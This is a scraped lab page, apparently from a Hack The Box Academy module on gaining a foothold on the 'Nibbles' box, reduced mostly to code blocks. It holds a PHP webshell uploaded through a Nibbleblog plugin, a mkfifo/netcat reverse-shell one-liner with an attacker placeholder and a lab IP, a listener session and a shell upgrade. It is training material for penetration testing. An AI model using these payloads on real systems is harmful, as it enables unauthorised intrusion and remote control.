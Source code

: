 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/77/section/852
// Platform Version: V1
// Module ID: 77
// Module Name: Getting Started
// Module Difficulty: Fundamental
// Section ID: 852
// Section Title: Nibbles - Initial Foothold
// Page Title: Getting Started
// Page Number: 17
-->

# Nibbles - Initial Foothold

**Module Name:** Getting Started **Page Number:** 17

#### GETTING STARTED

# Nibbles - Initial Foothold

![https://academy.hackthebox.com/storage/modules/77/plugins.png](https://academy.hackthebox.com/storage/modules/77/plugins.png)

``` php
<?php system('id'); ?>
```

![https://academy.hackthebox.com/storage/modules/77/upload.png](https://academy.hackthebox.com/storage/modules/77/upload.png)

``` shell-session
Warning: imagesx() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 26

Warning: imagesy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 27

Warning: imagecreatetruecolor(): Invalid image dimensions in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 117

Warning: imagecopyresampled() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 118

Warning: imagejpeg() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 43

Warning: imagedestroy() expects parameter 1 to be resource, boolean given in /var/www/html/nibbleblog/admin/kernel/helpers/resize.class.php on line 80
```

``` shell-session
[!bash!]$ curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

``` shell-session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
```

``` php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```

``` shell-session
0xdf@htb[/htb]$ nc -lvnp 9443

listening on [any] 9443 ...
```

``` shell-session
[!bash!]]$ nc -lvnp 9443

listening on [any] 9443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

``` bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

``` shell-session
$ python -c 'import pty; pty.spawn("/bin/bash")'

/bin/sh: 3: python: not found

$ which python3

/usr/bin/python3
```

``` shell-session
nibbler@Nibbles:/home/nibbler$ ls

ls
personal.zip  user.txt
```

# 

# 

#### Questions

####